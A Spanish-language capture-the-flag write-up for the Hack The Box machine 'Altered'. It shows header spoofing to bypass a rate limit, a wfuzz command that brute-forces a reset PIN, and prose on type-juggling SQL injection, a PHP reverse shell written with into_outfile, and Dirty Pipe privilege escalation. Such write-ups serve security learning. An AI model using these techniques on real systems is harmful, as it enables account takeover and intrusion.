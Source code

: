 ```yaml
---
title: Altered
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: [rate-limit-bypass, sqlinjectionoutfile, typejuggling, dirtypipe]     # TAG names should always be lowercase
---
```


En la página web se pudo observar que se puede recuperar la contraseña de admin por medio de un pin, usamos fuzzeo para tratar de encontrar el pin, pero al internalo nos bloquea por hacer
tantas peticiones por lo que procedemos a usar `rate-limit-bypass`

```shell 
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1
```

Con esto podemos poner un diccionario de ips para que nos prueba con diferente y así no nos pueda bloquear.

```shell
wfuzz -c -m zip --hh=5644 -t 200 -z range,0000-9999 -w ~/Desktop/guero/htb/Altered/ips.txt -d "name=admin&pin=FUZZ" -H "X-Forwarded-For: FUZ2Z" -H 
"Cookie: XSRF-TOKEN=eyJpdiI6IlRuMmh4bzhwN2dudFd0Nlg4RjJrY1E9PSIsInZhbHVlIjoiQUszeXB2TTJYVDVhUUxrTG9wY1BZbGRGeHMxWTBzcTZaSnR2dXNodDF1YXRFMHU0bWVkdkx
3L05rOGk4NkpCbVpadGgwNHBld2pFcnhFd29oL3MyRnZGaWlRdURhNUxsM0J6NmY4a2FNQ1VhSDlLL0RkQjJ1K1VZMkpGZ1dnRkQiLCJtYWMiOiJiMzE1ZWIwMGY3YTdmYmJiYWI2OThhMDRlYT
kxYTA1MzAxZjY4NGQ4N2YwOGZkZTc0ZWU1MzJhYzdmYTMxYzc5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImNVK0hOVnpkckNHTHd1UU9MY0JTdEE9PSIsInZhbHVlIjoicUsxR
zVWUGxzck4wN3BrNHB1a3dvNFJkVXE3bExvdjZhQ05XdXR0bElNVDdRWTNEby9mRXpWVWw4Q1VTU0x4TzFrRGhKUDVwaEZtQmhJY2F4YTUrczhtRFE1OFNDMTFKcjZXb05IaW5BbWZucUFXdFA2
eDU3ay8vc2dZVkVWTkMiLCJtYWMiOiJkMzg1YTdlMmU0NDkwNmNhZmI2ZTg5ZWQ0MWJhZGNiZmFiNzk2ZjcwYjZmM2RhYzNhMGIzNDI2ODQ3NDg1N2ZjIiwidGFnIjoiIn0%3D" http://10.10.11.159/api/resettoken
```

![imagen1](/assets/images/altered1.png)

![imagen2](/assets/images/altered2.png)

Como vemos que no se puede aplicar un sqlinjection, lo que se puede hacer es hacer un cambio de la petición o modificando el tipo de data que se manda, también se puede notar que se está comparando
la cadena secret, probamos con un `true` para ver si está programada esa igualdad para ver si hay un `type juggling` y así podemos hacer un sqlinjection.

![imagen3](/assets/images/altered3.png)

![imagen4](/assets/images/altered4.png)

En este punto no encontramos nada valioso en la base de datos, por lo que intentamos usar `load_file` para leer archivos del sistema, con éxito podemos leer archivos, investigando un poco, vemos
que se trata de `nginx` por lo que nos vamos a la dirección de configuración por defecto de nginx para averiguar la ruta de la página web y así poder subir un archivo con `into_outfile` y 
ejecutar comandos.

En el `/prc/net/tcp` pudimos obtener los puertos abiertos en la máquina.

```shell
echo "0035
8124
0016
0050
0CEA
0050
0CEA
9304" | sort -u | while read port; do echo "obase=10; ibase=16; $port" | bc; done
```

La ruta por default de nginx es: `/etc/nginx/sites_available/default`

![imagen5](/assets/images/altered5.png)

Una vez obtenida la ruta, procedemos a subir un archivo con lenguaje php para ejecutarnos una reverse shell.

![imagen6](/assets/images/altered6.png)

Una vez dentro al investigar vemos que es vulnerable a `dirtypipe` por la versión del kernel donde se ejecuta la máquina víctima.

```shell
www-data@altered:/$ uname -a
Linux altered 5.16.0-051600-generic #202201092355 SMP PREEMPT Mon Jan 10 00:21:11 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

Buscamos en google dirtypipe exploit github y procedemos a compilar el script, la subimos y lo ejecutamo en la máquina víctima y en /etc/passwd podremos ver que cambio la contraseña de root a 
`piped`

